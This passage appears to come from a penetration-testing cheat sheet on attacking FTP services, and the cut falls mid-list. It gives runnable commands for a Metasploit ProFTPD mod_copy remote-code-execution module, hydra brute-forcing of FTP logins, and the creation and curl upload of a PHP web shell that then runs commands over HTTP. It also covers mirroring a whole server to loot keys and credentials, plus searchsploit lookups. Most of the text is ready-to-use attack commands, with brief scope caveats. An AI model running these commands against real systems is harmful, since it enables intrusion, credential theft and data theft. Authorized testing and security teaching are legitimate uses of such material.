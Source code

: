 ```
```
- Metasploit for RCE via mod_copy (drops a web-executable file):
```
msfconsole -q
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS <IP>
# Adjust TARGETURI to webroot URL path (e.g., /), and WritableDir if needed
show options
run
```

8) Brute force credentials (when allowed)
```
# Common userlists: users.txt; passwords: rockyou.txt or curated
hydra -L users.txt -P passwords.txt -f -V -I -t 4 ftp://<IP>
```

9) Using valid credentials to drop a simple PHP web shell (if FTP user can write to webroot)
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
# Upload to suspected webroot via FTP (replace creds/path):
curl -T shell.php ftp://user:pass@<IP>/var/www/html/
# Execute commands via HTTP:
curl -s "http://<IP>/shell.php?cmd=id"
```

10) Looting sensitive files via FTP
- Common FTP roots: /srv/ftp, /var/ftp, ~ftp
- Typical loot: backups, configs, SSH keys, database creds.
```
# Mirror everything when permitted:
lftp -u anonymous,anonymous <IP> -e "set ssl:verify-certificate no; mirror -e --parallel=4; bye"
```

11) Cross-check public exploits
```
searchsploit vsftpd 2.3.4
searchsploit proftpd 1.3.3c
searchsploit proftpd mod_copy
```

## Practical tips
- Passive mode: If listings/transfers hang, toggle passive mode in FTP client (passive) or configure firewall/NAT.
- File permissions: Anonymous FTP “incoming” directories may allow STOR (upload) but not LIST/RETR. You can still upload a test file and then try to access it via another service (e.g., web).
- Version spoofing: Services can lie about versions. Use NSE/backdoor checks; try the exploit cautiously in labs.
- Webroot guesses: Common paths: /var/www/html, /var/www, /usr/share/nginx/html. Confirm with HTTP enumeration first.
- NSE script choices: Start with ftp-anon and ftp-syst. Add ftp-vsftpd-backdoor and ftp-proftpd-backdoor when versions hint at those servers.
- Credential reuse: If you find creds via FTP, try SSH re-use.
- Respect scope: Only brute force or attempt exploits where explicitly authorized.
